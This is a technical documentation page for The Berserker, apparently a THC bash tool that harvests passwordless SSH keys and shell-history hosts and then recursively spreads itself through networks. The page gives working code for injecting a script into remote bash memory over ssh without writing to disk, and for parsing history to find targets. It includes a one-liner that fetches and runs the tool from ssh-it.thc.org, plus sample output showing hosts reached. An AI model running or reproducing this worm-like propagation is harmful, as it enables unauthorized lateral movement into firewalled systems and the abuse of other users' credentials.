 ```yaml
---
layout: default
title: The Berserker / How it works
description: Technical details about how The Berserker works.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/how-it-works/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-berserker-v1.html margin-top="0" margin-bottom="4rem" %}

<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

Random notes on how [The Berserker](../) works.

## Executive Summary

[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

## General

The Berserker looks for any passwordless private ssh-key in `~/.ssh` and then gathers information from the User's shell history (`~/.bash_history`, `.zsh_history` and `~/.history`) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User `alice` starts The Berserker on host `Earth` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that `alice` frequently connects to `Mars` (as alice) and `Jupiter` (as root). The Berserker first connects to `Mars` and executes itself on `Mars`. Let's assume The Berserker finds no further ssh-keys on `Mars` and so it will not spread beyond `Mars`. Next it connects from `Earth` to `Jupiter`. It's a root login to `Jupiter` and The Berserker finds many ssh-keys from various users. One such user is `bob` who frequently connects to `Uranus` and from there to `Pluto`. Ultimately The Berserker will get to `Pluto` via a long ssh chain from `Earth`->`Jupiter`->`Uranus`->`Pluto`.

At this point the educated reader will realise that The Berserker is *deep penetrating* `Uranus`, e.g. `Uranus` gets owned even if firewalled or not being accessible from the Internet (but accessible from `Jupiter`).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to `Earth` (the *origin* where The Berserker started).

## Bash In-Memory execution

Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named `e.sh`.
1. Slurp the content into the variable `$S` after converting all `'` to `'"'"'`. That's a bit freaky but hold your beer.
1. I use the hex notation (`\x27`) of `'` here or otherwise it would look rather complicated (`sed` needs the `'` escaped so it is double-escaping time): `S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"`. Most readers would commit suicide at this point. This is just to escape `'` correctly so that it can be passed to `ssh` as a command via a variable (`SCRIPT='$S'`) without interfering with the `'` around the `$S`.
1. The long string `export SCRIPT='$S'; bash -c \"\$SCRIPT\"` is passed as a command to `ssh` to execute on the remote host. Note that the `$` in `\"\$SCRIPT\"` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute `$SCRIPT`. This is only needed because The Berserker needs to access the source of its own script (now stored in `$SCRIPT` to spread to further hosts). Otherwise `bash -c '$S'` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with `dd` into a remote bash variable and executing the string from memory is a thing....).

## Bash Command line parsing

There is no efficient way to convert a command line string from `~/.bash_history` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records `ls foo\ bar` rather than what it actually executes (`exec("ls", "foo bar")`; note the missing `\`). This is a problem if there are history entries containing bash variables or escape sequences like `$HOME` or `\ ` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is `exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program `xargs` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used `xargs` to call `bash -c` and output each command line argument in a separate line and then convert this into a bash array:

```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable `line` now contains:

```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double `eval eval` is needed. The first one convert the `${#}` to the integer number of the arguments passed to the bash by `xargs` and the second `eval` resolves the `~/` to the absolute directory name.

That format can now easily be split into an array like so:

```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```

 * Note how the *string* `MyArray` is passed as a function parameter (followed by the ssh command). Inside the function we use `eval` on that string to 'turn' the string-name (`MyArray`) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

## Bash stderr and $? catching

The Berserker needs to check the error output of `ssh` _and_ also needs the exit-code of `ssh` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:

```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```

* The `echo 1>&2 "Hello-STDERR";` generates some test output to STDERR.
* The `exit 123;` is some test exit code (123).

The output is `ret=123, err=Hello-STDERR`.

## Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to `Earth` (the *origin*). A simple protocol is used to pass the information from the farthest `ssh` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above `Pluto` would pass the message back to `Uranus`, `Uranus` back to `Jupitor`, ... to `Mars`, ... to `Earth`. All protocol messages are then dispatched at the *origin* in `msg_dispatch()`. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with `BS_DEBUG_IS_SLAVE=1`:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:

```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

## If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

## Contact

{% include contact-details.md %}
